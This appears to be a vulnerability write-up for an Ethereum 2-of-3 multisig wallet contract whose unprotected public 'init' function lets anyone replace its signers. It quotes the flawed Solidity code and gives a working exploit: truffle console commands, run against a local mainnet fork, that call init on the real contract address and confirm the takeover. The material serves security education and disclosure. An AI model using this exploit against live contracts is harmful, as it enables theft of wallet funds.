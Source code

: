 # Description 

The vulnerable contract was deployed on the [mainnet](https://etherscan.io/address/0x6630f77801e3d8ee4c624a628d0979ab9e7d111b#contracts) and its vulnerability was found by @samczsun and reported on the ETHSecurity Community Telegram channel.

The Smart Contract was designed to act as a 2 out of 3 multisignature wallet, but the function that was assigning the signers was exposed as a public one and without any authorization check, enabling anyone to set the signers of the SimpleWallet.

Before the vulnerable function 'init', we can see the same code in the constructor of WalletSimple and a comment stating that the signers cannot be changed once they are set:

```
  /**
   * Set up a simple multi-sig wallet by specifying the signers allowed to be used on this wallet.
   * 2 signers will be required to send a transaction from this wallet.
   * Note: The sender is NOT automatically added to the list of signers.
   * Signers CANNOT be changed once they are set
   *
   * @param allowedSigners An array of signers on the wallet
   */
  function WalletSimple(address[] allowedSigners) {
    if (allowedSigners.length != 3) {
      // Invalid number of signers
      throw;
    }
    signers = allowedSigners;
  }

    function init(address[] allowedSigners) {
    if (allowedSigners.length != 3) {
      // Invalid number of signers
      throw;
    }
    signers = allowedSigners;
  }
```

The developer's intention was clear, but forgot to either protect the init function or to completely remove it, since the Contract constructor does already what the developer originally intended to do.

# How to exploit on a local environment

```
npm install -g ganache-cli truffle
# Fork the mainnet locally from block 7899146
ganache-cli -f https://mainnet.infura.io/v3/45aad5d782be4a68904db4fdf74c315c@7899146 --debug
truffle console # on a different terminal
```

Then in the truffle development console run:

```
const abi = [{"constant":false,"inputs":[{"name":"toAddress","type":"address"},{"name":"value","type":"uint256"},{"name":"tokenContractAddress","type":"address"},{"name":"expireTime","type":"uint256"},{"name":"sequenceId","type":"uint256"},{"name":"signature","type":"bytes"}],"name":"sendMultiSigToken","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[{"name":"","type":"uint256"}],"name":"signers","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"forwarderAddress","type":"address"},{"name":"tokenContractAddress","type":"address"}],"name":"flushForwarderTokens","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"toAddress","type":"address"},{"name":"value","type":"uint256"},{"name":"data","type":"bytes"},{"name":"expireTime","type":"uint256"},{"name":"sequenceId","type":"uint256"},{"name":"signature","type":"bytes"}],"name":"sendMultiSig","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"signer","type":"address"}],"name":"isSigner","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"getNextSequenceId","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"createForwarder","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[],"name":"safeMode","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"allowedSigners","type":"address[]"}],"name":"init","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"activateSafeMode","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[{"name":"allowedSigners","type":"address[]"}],"payable":false,"stateMutability":"nonpayable","type":"constructor"},{"payable":true,"stateMutability":"payable","type":"fallback"},{"anonymous":false,"inputs":[{"indexed":false,"name":"from","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"data","type":"bytes"}],"name":"Deposited","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"}],"name":"SafeModeActivated","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"},{"indexed":false,"name":"otherSigner","type":"address"},{"indexed":false,"name":"operation","type":"bytes32"},{"indexed":false,"name":"toAddress","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"data","type":"bytes"}],"name":"Transacted","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"},{"indexed":false,"name":"otherSigner","type":"address"},{"indexed":false,"name":"operation","type":"bytes32"},{"indexed":false,"name":"toAddress","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"tokenContractAddress","type":"address"}],"name":"TokenTransacted","type":"event"}]

const address = '0x6630f77801e3d8ee4c624a628d0979ab9e7d111b'

var contract = require("truffle-contract”);
var c = contract({abi: abi, address: address})
var provider = new web3.providers.HttpProvider("http://localhost:8545");
c.setProvider(provider);
var app;
c.at(address).then(function(instance){app = instance;});
app.init([web3.eth.accounts[0], web3.eth.accounts[1], web3.eth.accounts[2]], {from: web3.eth.accounts[0]})

app.isSigner.call(web3.eth.accounts[0], {from: web3.eth.accounts[0]})
// true
app.isSigner.call(web3.eth.accounts[1], {from: web3.eth.accounts[0]})
// true
app.isSigner.call(web3.eth.accounts[2], {from: web3.eth.accounts[0]})
// true
```
